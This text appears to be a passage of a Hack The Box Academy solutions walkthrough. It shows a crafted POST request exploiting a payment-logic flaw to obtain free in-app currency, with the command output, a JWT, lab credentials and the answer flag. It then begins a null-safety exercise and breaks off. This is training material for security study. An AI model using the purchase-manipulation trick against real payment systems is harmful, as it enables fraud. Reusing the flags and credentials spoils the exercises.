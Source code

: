 Students need to send a POST request to the `/api/payment/charge` endpoint (mapped to `src/src/controllers/payment-controllers.js`, lines 45-230), passing in its body the JSON data for the two purchases and the card ID:

Code: shell

```shell
echo -n '{"cardId":"651599407998f5c5ff061491","items":[{"name":"1000","category":"cubes","price":100,"amount":1},{"name":"doesNotExist","category":"subscription","price":100,"amount":1}]}' | http POST http://STMIP:STMPO/api/payment/charge --auth-type=jwt --auth="JWT" | jq
```

```
┌─[eu-academy-1]─[10.10.14.72]─[htb-ac-413848@htb-lmjzvcebvu]─[~]
└──╼ [★]$ echo -n '{"cardId":"651599407998f5c5ff061491","items":[{"name":"1000","category":"cubes","price":100,"amount":1},{"name":"doesNotExist","category":"subscription","price":100,"amount":1}]}' | http POST http://94.237.62.195:45334/api/payment/charge --auth-type=jwt --auth="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjY0OWYyODkzY2JhOGQwZDZlODQxMjE4MiIsIm5hbWUiOiJIVEIgU3R1ZGVudCIsInVzZXJuYW1lIjoiaHRiLXN0dWRlbnQiLCJlbWFpbCI6Imh0Yi1zdHVkZW50QGFjYWRlbXkuaHRiIiwicmVnaXN0cmF0aW9uRGF0ZSI6IjIwMjMtMDEtMDFUMDA6MDA6MDAuMDAwWiIsImN1YmVzIjozMCwic3Vic2NyaXB0aW9uIjp7InVzZXJJZCI6IjY0OWYyODkzY2JhOGQwZDZlODQxMjE4MiIsInN1YnNjcmlwdGlvbk5hbWUiOiJmcmVlIiwiZXhwaXJlc0F0IjoiMjEwMC0wMS0wMVQwMDowMDowMC4wMDBaIn0sImlhdCI6MTY5NTkxNTU5NiwiZXhwIjoxNjk2MDAxOTk2fQ.n-FtLMJ7wlerM7J02M05WmR44Pd9_t_Y-7dhOzVLJeU" | jq

{
  "message": "Could not find a matching subscription."
}
```

Subsequently, after visiting the root webpage of the spawned target machine and signing in using the credentials `htb-student@academy.htb:HTB_@cademy_student!`, students will have enough cubes to unlock the "Introduction to Academy" module:

![[HTB Solutions/CWEE/z. images/913551678fa7854629af00572defcfd9_MD5.jpg]]

Students will attain the flag `HTB{3xp3c7_7#3_un3xp3c73d}` in the module's first section:

![[HTB Solutions/CWEE/z. images/9e973336c41db11814fd49a9872e6a24_MD5.jpg]]

Answer: `HTB{3xp3c7_7#3_un3xp3c73d}`

# Null Safety

## Question 1

### "Try the above process to identify a function vulnerable to null safety logic bugs. What is the name of one such function?"

Students first need to download [null\_safety.zip](https://academy.hackthebox.com/storage/modules/239/null_safety.zip), unzip it, and then open it in `Visual Studio Code`:

Code: shell

```shell
wget https://academy.hackthebox.com/storage/modules/239/null_safety.zip
unzip null_safety.zip
code null_safety/
```
